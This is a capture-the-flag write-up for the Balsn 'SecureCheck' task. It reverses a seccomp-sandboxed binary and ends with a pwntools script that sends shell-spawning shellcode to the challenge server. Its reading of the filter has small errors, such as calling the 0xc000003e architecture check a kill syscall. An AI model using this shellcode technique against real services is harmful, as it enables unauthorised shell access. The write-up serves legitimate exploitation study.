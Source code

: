 # SecureCheck

So what we have in this ctf task - just an application which called `nosyscal` and nothing more... So let's try to open it with radare/cutter to see what's inside.

## Overview

![overview](overview.png)

Just an elf64 binary with two functions which are relevant `main` and `instal_syscall_filter`. Let's see what's inside `main` with decompiler's help :

## main
~~~~
undefined8 main(void)  
{  
	int32_t iVar1;  
	undefined8 uVar2;  
	int64_t in_FS_OFFSET;  
	int32_t iStack36;  
	code *pcStack32;  
	code *UNRECOVERED_JUMPTABLE;  
	int64_t iStack16;  
	  
	iStack16 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	pcStack32 = (code *)sym.imp.mmap(0, 0x1000, 7, 0x22, 0xffffffff, 0);  
	sym.imp.read(0, pcStack32, 0x1000);  
	UNRECOVERED_JUMPTABLE = pcStack32;  
	iVar1 = sym.imp.fork();  
	if (iVar1 == 0) {  
		sym.install_syscall_filter();  
	} else {  
		sym.imp.wait(&iStack36);  
		if (iStack36 != 0) {
			uVar2 = 0;  
			if (iStack16 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
					uVar2 = sym.imp.__stack_chk_fail();  
			}  
			return uVar2;
		}
	}
	// WARNING: Could not recover jumptable at 0x00000a20. Too many branches  
	// WARNING: Treating indirect jump as call  
	uVar2 = (*UNRECOVERED_JUMPTABLE)(0, 0, UNRECOVERED_JUMPTABLE, 0, 0, 0);  
	return uVar2;  
}
~~~~
From first view seems like `shellcode` task which gets the input, put it in the mmap and runs in both processes if child successfully exit.
Also noticed that all regs are xored also in the `main`.
~~~~
0x000009f6      xor     rbx, rbx
0x000009f9      xor     rcx, rcx
0x000009fc      xor     rdi, rdi
0x000009ff      xor     rsi, rsi
0x00000a02      xor     rsp, rsp
0x00000a05      xor     rbp, rbp
0x00000a08      xor     r8, r8
0x00000a0b      xor     r9, r9
0x00000a0e      xor     r10, r10
0x00000a11      xor     r11, r11
0x00000a14      xor     r12, r12
0x00000a17      xor     r13, r13
0x00000a1a      xor     r14, r14
0x00000a1d      xor     r15, r15
~~~~

But what's happening inside `install_syscall_filter`?

## install_syscall_filter
~~~~
undefined8 sym.install_syscall_filter(void)  
{  
	int64_t iVar1;  
	int32_t iVar2;  
	undefined8 uVar3;  
	int64_t in_FS_OFFSET;  
	uint32_t v3;  
	int32_t var_58h;  
	int32_t var_50h;  
	int32_t var_48h;  
	int32_t var_40h;  
	int32_t var_38h;  
	int32_t var_30h;  
	int32_t var_28h;  
	int32_t var_20h;  
	int32_t var_18h;  
	int32_t var_10h;  
	int32_t canary;  
	  
	iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	v3._0_2_ = 9;  
	iVar2 = sym.imp.prctl(0x26, 1, 0, 0, 0);  
	if (iVar2 == 0) {  
		iVar2 = sym.imp.prctl(0x16, 2, &v3);  
	if (iVar2 == 0) {  
		uVar3 = 0;  
	goto code_r0x0000096b;  
	}  
		sym.imp.perror(0xaf8);  
	} else {  
		sym.imp.perror(0xae4);  
	}  
	uVar3 = 1;  
	code_r0x0000096b:  
	if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
		uVar3 = sym.imp.__stack_chk_fail();  
	}  
	return uVar3;  
}
~~~~
`prctl` calls with some variables and all `vars_*` on stack are not relevant from radare's opinion, heh.  Those  identifiers (0x16/PR_SET_SECCOMP, 0x26/PR_SET_NO_NEW_PRIVS) points out on some `seccomp` application filtering, interesting. Need to find out then what's coming as `v3`, there is only size of `v3` is pointed out but where is the data?

![install_syscall_filter variables](stack.png)

Seems like radare2 not smart enough about variables in decompile section :) What is that? Oh wait, seems like `sock_filter` structures.
~~~~
{0x20, 0, 0, 4}
{0x15, 1, 0, 0xc000003e}
{0x6, 0, 0, 0}
{0x20, 0, 0, 0}
{0x15, 0, 1, 0x3}
{0x6, 0, 0, 0x7fff0000}
{0x15, 0, 1, 0xe7}
{0x6, 0, 0, 0x7fff0000}
{0x6, 0, 0, 0}
~~~~
Let's disassemble with `bpf_dbg` and see what the rules are on:
~~~~
l0: ld [4] 
l1: jeq #0xc000003e, l3, l2 
l2: ret #0 
l3: ld [0] 
l4: jeq #0x3c, 
l5, l6 
l5: ret #0x7fff0000 
l6: jeq #0xe7, l7, l8 
l7: ret #0x7fff0000 
l8: ret #0
~~~~
Hm, interesting, 
0x3e/62 - kill
0x3c/60 - exit
0xe7/231 - exit group

So we're able to use only exit/exit group calls, otherwise we will be killed.
What should we do in this case?

## Solution

After some discussion we decide to `exit` from child and run `shell` on parent with shellcode because parent will not be affected by child's limitations with `prctl`. But how we do know where we are in child or in parent? Let's coin flip and decide from it, of course it will not happen from first attempt but it should after some time. `rdtsc` will do the coin flip magic... Let's code with pwntools :
~~~~
#!/usr/bin/env python3  
from pwn import *  
  
context.arch = 'amd64'  
shellsource = \  
		' rdtsc\n' + \  
		' test rax, 0x100\n' + \  
		' lea rsp, [rest + rip]\n' + \  
		' jz exit0\n' + \  
		shellcraft.amd64.linux.sh() + \  
		'exit0:\n' + \  
		shellcraft.amd64.linux.exit(0) + \  
		' .skip 512\n' + \  
		'rest:\n'  
  
print(shellsource)  
shellcode = asm(shellsource)  
p = remote('securecheck.balsnctf.com', 54321)  
p.send(shellcode)  
p.interactive()
~~~~
After some attempts as expected we got the flag, hurray!

*Balsn{Sam3_Cod3_Same_Cont3xt_Diff3r3nt_World}*

